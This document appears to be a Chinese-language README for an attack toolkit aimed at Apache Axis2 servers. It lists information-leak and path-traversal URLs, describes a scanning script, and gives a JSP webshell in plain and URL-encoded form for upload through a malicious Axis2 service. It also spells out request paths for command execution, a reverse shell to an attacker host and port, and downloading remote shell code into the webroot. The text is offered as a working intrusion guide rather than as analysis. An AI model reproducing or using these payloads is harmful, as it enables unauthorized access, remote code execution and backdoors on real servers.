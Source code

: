 #Apache axis2内部信息泄漏
/axis2/axis2-web/HappyAxis.jsp 
/axis2/services/Version?xsd=../conf/axis2.xml （有事密码不正确的时候可以看看这里有木有文件包含漏洞）

#1.Scan AXIS2 目录里
是扫描ip及端口的、利用s扫描器、这里S扫描器就自己找吧，免得说有后门！ips.txt就是扫描出来的结果

#2.Asix2.py （需要下载Requests模块 python 2.7环境） 
使用方法$python axis2.py url.txt   （把上面ips.txt 结果放入url.txt中）
存在AXIS2会写在Success.txt里

#3.shell目录
使用方法：
第一个是写入shell或是写入文件，写入shell在网站不能连接外网时候 上传小马 
1<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%><a href="One_OK"></a>1 

进行url编码

/axis2/services/Cat/writeStringToFile?data=test %31%3c%25%69%66%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%66%22%29%21%3d%6e%75%6c%6c%29%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%46%69%6c%65%4f%75%74%70%75%74%53%74%72%65%61%6d%28%61%70%70%6c%69%63%61%74%69%6f%6e%2e%67%65%74%52%65%61%6c%50%61%74%68%28%22%2f%22%29%2b%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%66%22%29%29%29%2e%77%72%69%74%65%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%74%22%29%2e%67%65%74%42%79%74%65%73%28%29%29%3b%25%3e%3c%61%20%68%72%65%66%3d%22%4f%6e%65%5f%4f%4b%22%3e%3c%2f%61%3e%31 text&file=网站物理路径&encoding=utf-8&append=false

第二个是获取路径 (getClassPath)
/axis2/services/Cat/getClassPath

第三个是执行命令
/axis2/services/Cat/exec?cmd=whoami

第四个是反弹shell
/axis2/services/Cat/shell?host=*.*.*.*&port=12345

第五个远程写shell、config aar (Web.txt 为shell代码)

/axis2/services/config/download?url=http://url.com/web.txt&path=D:/plat_resin-pro-3.2.1/webapps/axis2/web.jsp

